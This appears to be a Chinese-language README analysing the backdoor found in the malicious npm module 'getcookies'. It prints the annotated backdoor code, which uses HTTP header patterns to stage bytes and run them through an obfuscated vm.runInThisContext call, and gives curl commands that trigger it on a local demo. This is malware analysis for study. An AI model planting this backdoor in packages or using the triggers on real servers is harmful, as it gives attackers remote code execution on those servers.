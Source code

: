 ## getcookies

## 后面代码分析

```js
// 分配一块 64K 的内存
module.exports.log = module.exports.log || Buffer.alloc(0xffff);

// gCOMMANDhDATAi
JSON.stringify(req.headers).replace(/g([a-f0-9]{4})h((?:[a-f0-9]{2})+)i/gi, (o, p, v) => {
    // 以 0xfffe 命令为样例
    // 将字符串 feff 读入 Buffer
    // 'feff' => <Buffer fe ff>
    // readUInt16LE 读取 16 bit(位) 并以 byte(字节) 反向排序
    // <Buffer fe ff> => 0xfffe
    //
    // > Buffer.from('feff', 'hex').readUInt16LE(0) === 0xfffe
    // true
    // > Buffer.from('1234567890', 'hex').readUInt32LE(1).toString(16)
    // '90785634'
    p = Buffer.from(p, 'hex').readUInt16LE(0);
    switch (p) {

        case 0xfffe:
            module.exports.log = Buffer.alloc(0xffff);
            return;
        case 0xfffa:
            return setTimeout(() => {

                // 去除末尾的 0x00
                let c = module.exports.log.toString().replace(/\x00*$/, '');
                module.exports.log = Buffer.alloc(0xffff);

                // 不能以 0x00 开头
                if (c.indexOf('\x00') < 0) {
                    // require('vm')['runInThisContext'](c)(module.exports, require, req, res, next)
                    // 代码必须是个函数
                    require('\x76\x6d')['\x72\x75\x6e\x49\x6e\x54\x68\x69\x73\x43\x6f\x6e\x74\x65\x78\x74'](c)(module.exports, require, req, res, next);
                }
                next();
            }, 1000);
        default:
            // 我们以 (function(){console.log('hack')}) 为例
            v = Buffer.from(v, 'hex');
            for (let i = 0; i < v.length; i++) {

                // 因为执行命令的时候，不能以 0x00 开头
                // 所以，p 必须是 0x0000
                module.exports.log[p + i] = v[i];
            }
    }
});
```

## Test

```sh
$ node demo/index.js
$ curl -H 'evil: g0000h2866756e6374696f6e28297b636f6e736f6c652e6c6f6728276861636b27297d29i'  http://127.0.0.1:3000
$ curl -H 'evil: gfaffh00i'  http://127.0.0.1:3000
```

## References
* [文件来源](https://npm.runkit.com/getcookies/test/harness.js?t=1525249320108)
* [讨论地址](https://news.ycombinator.com/item?id=16975025)
* [细思极恐：后门代码被隐藏在npm模块中，差点就得逞](https://mp.weixin.qq.com/s/4JGuRDR54OnJyAqlSns53Q)
* [npm blog](https://blog.npmjs.org/post/173526807575/reported-malicious-module-getcookies)
* [16进制转换](https://www.bejson.com/convert/ox2str/)
